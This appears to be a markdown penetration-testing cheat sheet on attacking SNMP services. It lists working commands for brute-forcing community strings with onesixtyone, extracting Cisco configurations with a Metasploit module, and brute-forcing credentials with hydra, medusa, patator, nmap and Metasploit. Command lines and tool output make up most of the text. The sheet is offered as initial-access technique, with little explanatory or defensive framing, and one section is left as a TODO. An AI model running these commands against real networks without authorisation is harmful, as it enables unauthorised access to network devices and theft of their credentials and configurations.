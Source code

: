 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - initial-access
  - password-cracking
  - network-ports
  - onesixtyone
  - hydra
  - medusa
  - patator
  - network-mapper
  - metasploit-framework
---
```

# SNMP

## 01 - Brute Force Community Strings

```
$ cat > community.txt << EOF
public
private
manager
EOF

$ onesixtyone -c community.txt -i ip_targets.txt -o output.txt -w 100
```

## 02 - Retrieve Credentials

### 2.1 - Cisco

```
msf > use auxiliary/scanner/snmp/cisco_config_tftp

msf auxiliary(scanner/snmp/cisco_config_tftp) > options

msf auxiliary(scanner/snmp/cisco_config_tftp) > set rhosts <IP>

msf auxiliary(scanner/snmp/cisco_config_tftp) > run
```

## 03 - Brute Force Credentials

### 3.1 - OneSixtyOne

```
$ onesixtyone <IP> -c passwords.lst
```

### 3.2 - Hydra

TODO: Fill this info

`$ hydra -U snmp`

```
$ hydra -P passwords.lst <IP> snmp
```

### 3.3 - Medusa

```
$ medusa -M snmp -m TIMEOUT:2 -m ACCESS:READ -h <IP> -u <username> -P passwords.lst

$ medusa -M snmp -m TIMEOUT:2 -m ACCESS:WRITE -h <IP> -u <username> -P passwords.lst
```

### 3.4 - Patator

```
$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=unknownUserName

$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=wrongDigest
```

### 3.5 - Network Mapper

```
$ sudo nmap -sU -p 161,162 -n --script snmp-brute --script-args "snmp-brute.communitiesdb=passwords.lst" <IP
```

### 3.6 - Metasploit

```
msf > use auxiliary/scanner/snmp/snmp_login

msf auxiliary(scanner/snmp/snmp_login) > options

Module options (auxiliary/scanner/snmp/snmp_login): 

   Name              Current Setting                                       Required  Description 
   ----              ---------------                                       --------  ----------- 
   BLANK_PASSWORDS   false                                                 no        Try blank passwords for all users 
   BRUTEFORCE_SPEED  5                                                     yes       How fast to bruteforce, from 0 to 5 
   DB_ALL_CREDS      false                                                 no        Try each user/password couple stored in the current database 
   DB_ALL_PASS       false                                                 no        Add all passwords in the current database to the list 
   DB_ALL_USERS      false                                                 no        Add all users in the current database to the list 
   DB_SKIP_EXISTING  none                                                  no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm) 
   PASSWORD                                                                no        The password to test 
   PASS_FILE         /opt/metasploit/data/wordlists/snmp_default_pass.txt  no        File containing communities, one per line 
   RHOSTS                                                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             161                                                   yes       The target port 
   STOP_ON_SUCCESS   false                                                 yes       Stop guessing when a credential works for a host 
   THREADS           1                                                     yes       The number of concurrent threads (max one per host) 
   USER_AS_PASS      false                                                 no        Try the username as the password for all users 
   VERBOSE           true                                                  yes       Whether to print output for all attempts 
   VERSION           1                                                     yes       The SNMP version to scan (Accepted: 1, 2c, all)

msf auxiliary(scanner/snmp/snmp_login) > set rhosts <IP>

msf auxiliary(scanner/snmp/snmp_login) > set pass_file passwords.lst

msf auxiliary(scanner/snmp/snmp_login) > set stop_on_success true

msf auxiliary(scanner/snmp/snmp_login) > run -j

msf auxiliary(scanner/snmp/snmp_login) > creds
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Remote Services/Telnet|Initial Access: Telnet]]

### Hacking Articles

- [Hacking Articles: Password Cracking SNMP](https://www.hackingarticles.in/password-crackingsnmp/)

### Penetration Testing Tools

- [Penetration Testing Tools: Hydra Protocols](https://en.kali.tools/?p=220)

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)

### Mike Bond

- [Mike Bond: Cisco SNMP Secrets](https://bond-o.medium.com/cisco-snmp-secrets-e4b731b19737)